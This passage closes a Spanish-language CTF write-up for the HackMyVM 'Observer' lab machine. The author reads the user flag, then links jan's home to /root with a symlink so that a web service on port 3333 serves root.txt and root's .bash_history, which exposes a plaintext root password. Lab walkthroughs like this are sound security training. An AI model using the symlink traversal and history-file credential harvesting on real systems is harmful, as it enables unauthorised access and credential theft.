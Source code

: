 ~~~bash
permitted by applicable law.
Last login: Sat Dec  9 12:32:39 2023 from 192.168.1.150
jan@observer:~$ 
~~~

Ya estamos dentro, solo falta leer la flag de user:

~~~bash
jan@observer:~$ ls
user.txt
jan@observer:~$ cat user.txt
HMVXXXXXXXXXXXXXXXXXXP7
~~~


## Escalada de privilegios

Tras revisar un rato, no veo nada interesante, por lo que quizá, podamos leer la flag de root creando un enlace simbólico desde nuestro directorio de trabajo al de *root*:

~~~bash
jan@observer:~$ ln -s /root rooter
~~~

Y ahora desde mi equipo intento leerla:

~~~bash
❯ curl http://192.168.1.26:3333/jan/rooter/root.txt
HMVXXXXXXXXXXXXXXXXXXH1
~~~

Pues ha funcionado, con esto tendríamos la máquina resuelta, no obstante, si leemos el historial, podemos encontrar la contraseña de root:

~~~bash
❯ curl http://192.168.1.26:3333/jan/rooter/.bash_history
ip a
exit
apt-get update && apt-get upgrade
apt-get install sudo
cd
wget https://go.dev/dl/go1.12.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.12.linux-amd64.tar.gz
rm go1.12.linux-amd64.tar.gz 
export PATH=$PATH:/usr/local/go/bin
nano observer.go
go build observer.go 
mv observer /opt
ls -l /opt/observer 
crontab -e
nano root.txt
chmod 600 root.txt 
nano /etc/sudoers
nano /etc/ssh/sshd_config
paswd
fuck1ng0bs3rv3rs
passwd
su jan
nano /etc/issue
nano /etc/network/interfaces
ls -la
exit
ls -la
cat .bash_history
ls -la
ls -la
cat .bash_history
ls -l
~~~